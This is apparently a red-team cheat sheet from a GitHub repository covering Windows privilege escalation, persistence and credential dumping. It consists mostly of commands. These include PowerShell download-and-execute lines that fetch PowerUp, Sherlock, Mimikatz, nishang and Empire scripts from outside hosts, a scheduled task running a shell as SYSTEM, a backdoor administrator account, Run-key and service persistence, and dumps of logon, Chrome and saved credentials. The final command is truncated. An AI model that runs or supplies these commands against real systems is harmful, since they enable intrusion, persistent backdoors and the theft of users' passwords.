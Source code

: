 # PowerUp
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

Invoke-AllChecks
`

# SharpUp
`
https://github.com/GhostPack/SharpUp
`

# Sherlock
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')

Find-AllVulns
`

# Watson
`
https://github.com/rasta-mouse/Watson
`

# Create new task
`
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"

schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
`

# Add User
`
net user testuser P@ssw0rd /add

net localgroup administrators testuser /add
`

# Create Service
`
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
`

# Registry Keys
`
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"

REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
`

# StartUp Folder (Run(shell:startup))
`
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
`

# Memory Dump
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')

Invoke-Mimikatz -Command 'privilege::debug'

Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
`
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

# Windows Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')

Invoke-WCMDump
`

# Web Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')

Get-WebCredentials
`

# Chrome Passwords
`
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
`

# Chrome History
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')

Get-ChromeDump > chromepwds.txt
`

# Other Saved Credentials
`
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')

Invoke-SessionGopher -Thorough
`
